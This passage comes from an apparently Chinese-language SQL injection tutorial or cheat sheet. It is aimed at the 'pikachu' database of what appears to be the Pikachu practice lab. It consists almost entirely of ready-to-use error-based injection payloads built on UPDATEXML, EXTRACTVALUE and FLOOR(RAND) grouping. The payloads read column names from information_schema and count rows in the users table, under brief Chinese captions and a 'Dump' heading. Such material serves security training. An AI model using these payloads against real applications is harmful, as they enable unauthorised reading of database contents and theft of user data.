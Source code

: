 ```
' OR UPDATEXML(1, CONCAT(0x7e, SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1), 1, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1), 1, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1), 1, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断当前数据库中指定数据表中第一个字段名的第一个字符

```
' OR UPDATEXML(1, CONCAT(0x7e, SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1), 1, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1), 1, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, SUBSTR((SELECT column_name FROM information_schema.COLUMNS WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0, 1), 1, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

### 6.5. Dump

判断指定数据库中指定数据表中指定字段中数据的个数

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT COUNT(*) FROM pikachu.users), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT COUNT(*) FROM pikachu.users), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT COUNT(*) FROM pikachu.users), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

判断当前数据库中指定数据表中指定字段中数据的个数

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT COUNT(*) FROM users), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT COUNT(*) FROM users), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT COUNT(*) FROM users), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```
